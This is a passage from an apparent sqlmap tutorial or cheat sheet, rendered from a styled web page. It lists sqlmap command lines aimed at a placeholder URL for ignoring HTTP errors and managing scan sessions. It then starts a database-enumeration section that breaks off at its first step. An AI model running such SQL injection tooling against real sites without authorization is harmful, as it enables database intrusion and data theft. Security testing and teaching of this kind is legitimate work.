     # Ignore HTTP errors
    python sqlmap.py -u "http://target.com/page?id=1" --ignore-code=404
:::

### Session Handling

::: code-block
    # Resume previous session
    python sqlmap.py -u "http://target.com/page?id=1" --resume

    # Custom session file
    python sqlmap.py -u "http://target.com/page?id=1" \
      --session-file="/tmp/session.sqlite"

    # Flush session
    python sqlmap.py -u "http://target.com/page?id=1" --flush-session
:::
:::

::: {#database-enumeration .section .section}
## Database Enumeration

### Information Gathering Workflow

::: {.attack-vector .risk-medium}
#### Step-by-Step Enumeration

::: terminal-window
::: terminal-header
::: terminal-buttons
::: {.terminal-button .close}
:::

::: {.terminal-button .minimize}
:::

::: {.terminal-button .maximize}
:::
:::

[SQLMap Enumeration Sequence]{style="color: #ccc; margin-left: 10px;"}
:::

::: terminal-content
<div>

[\# Step 1: Basic Info]{style="color: #00ffff;"}
